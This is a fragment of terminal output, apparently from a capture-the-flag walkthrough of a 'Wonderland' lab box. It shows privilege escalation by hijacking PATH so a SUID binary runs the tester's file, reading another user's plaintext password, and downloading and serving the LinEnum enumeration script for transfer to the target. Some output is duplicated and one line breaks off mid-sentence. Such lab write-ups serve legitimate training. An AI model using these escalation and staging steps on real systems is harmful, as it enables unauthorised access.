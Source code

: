 3   0x000020d0 0x000020d0 32  33   .rodata ascii Segmentation fault (core dumped)

rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ echo $PATH
/home/rabbit:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?


root@kali:~/thm/wonderland# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2020-06-06 17:49:48--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 199.232.56.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|199.232.56.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                                 100%[=======================================================================================================================================>]  45.54K  --.-KB/s    in 0.03s   

2020-06-06 17:49:48 (1.43 MB/s) - ‘LinEnum.sh’ saved [46631/46631]

root@kali:~/thm/wonderland# ls
alice_door.jpg  Cutter-v1.10.3-x64.Linux.AppImage  hint1.txt  hint.txt  index.jpeg  LinEnum.sh  linpeas.sh  teaParty  white_rabbit_1.jpg  wonderland.gnmap  wonderland.nmap  wonderland.xml
root@kali:~/thm/wonderland# python -m SimpleHTTPServer 8000
Serving HTTP on 0.0.0.0 port 8000 ...

https://github.com/rebootuser/LinEnum

root@kali:~/thm/wonderland# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2020-06-06 17:49:48--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 199.232.56.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|199.232.56.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                                 100%[=======================================================================================================================================>]  45.54K  --.-KB/s    in 0.03s   
